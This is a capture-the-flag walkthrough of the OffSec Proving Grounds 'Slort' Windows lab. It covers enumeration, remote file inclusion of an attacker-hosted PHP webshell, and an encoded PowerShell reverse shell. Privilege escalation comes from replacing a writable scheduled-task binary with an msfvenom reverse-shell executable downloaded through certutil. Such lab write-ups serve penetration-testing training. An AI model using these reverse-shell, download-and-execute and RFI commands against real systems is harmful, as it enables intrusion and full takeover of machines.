


# Slort — OffSec Proving Grounds Walkthrough

**Platform:** Proving Grounds Practice
**Difficulty:** Intermediate
**OS:** Windows

---

## TL;DR

Apache web server running on two ports → `/site/index.php?page=` LFI vulnerable to RFI → PHP webshell hosted via attacker HTTP server → Reverse shell → Writable `TFTP.EXE` scheduled backup binary → Executable replacement for NT AUTHORITY\SYSTEM.

---

## Enumeration

```bash
nmap -sV -p- 192.168.171.53
```

**Open Ports:**
| Port | Service | Version |
|------|---------|---------|
| 21 | FTP | FileZilla |
| 135,139,445| SMB/RPC | |
| 3306 | MySQL | (Remote Access Denied) |
| 4443 | HTTP | Apache httpd 2.4.43 |
| 8080 | HTTP | Apache httpd 2.4.43 |

Scanning the web servers on `8080` and `4443` with `gobuster`:
```bash
gobuster dir -u http://192.168.171.53:8080/ -w `/usr/share/wordlists/dirb/common.txt`
```
Both ports host identically structured web directories. In particular, we find a `/site` directory!
```text
/dashboard            (Status: 301)
/img                  (Status: 301)
/site                 (Status: 301)
```

---

## Exploitation — Remote File Inclusion (RFI)

Navigating to `http://192.168.171.53:8080/site/`, we see an `index.php` file taking a `page` parameter:
```text
http://192.168.171.53:8080/site/index.php?page=...
```

This is highly suspicious for Local/Remote File Inclusion (LFI/RFI).

To test for RFI, we host a simple PHP webshell (`shell.php`) on our Kali machine using python:
```bash
python3 -m http.server 80
```

We point the `page` parameter to our hosted payload:
```text
http://192.168.171.53:8080/site/index.php?page=http://192.168.45.242/shell.php
```

It executes! We now have a webshell on the target.
Using an encoded PowerShell payload, we spawn a reverse shell:

```powershell
powershell -e JABjAGwAaQBlAG4Ad....<base64>...A)
```
We land a true shell as the service account.

---

## Privilege Escalation — Scheduled Task Binary Replacement

During post-exploitation enumeration, we notice a non-standard backup directory sitting in the root of `C:\`.


Inside the directory, there's a scheduled task binary named `TFTP.EXE` that runs a backup routine every 5 minutes.


Checking permissions using `icacls`, we see our current user has **Full Control** over `TFTP.EXE`.

1. Generate a malicious executable to replace the backup binary:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.242 LPORT=6969 -f exe -o rshell.exe
```

2. Backup the original file and replace it:
```cmd
move TFTP.EXE TFTP.EXE.old
certutil -urlcache -split -f http://192.168.45.242/rshell.exe TFTP.EXE
```

3. Start your listener on port 6969 and wait.

Within 5 minutes, the scheduled task runs the malicious `TFTP.EXE` binary and drops an **Administrator** shell. 🎉

---

## Key Takeaways

- **LFI vs RFI**: If a `page=` parameter is found pulling internal pages, always test if it will pull `http://<your_ip>/payload.php`!
- **Non-Standard Folders in `C:\`**: Third-party backup scripts or utilities are notorious for bad permission settings.
- **Binary Replacement**: If you have `Write` or `Full Control` over an executable run by a scheduled task, replacing the `.exe` is the easiest path to SYSTEM/Admin.

---

*Thanks for reading! Follow for more OffSec walkthrough content.*
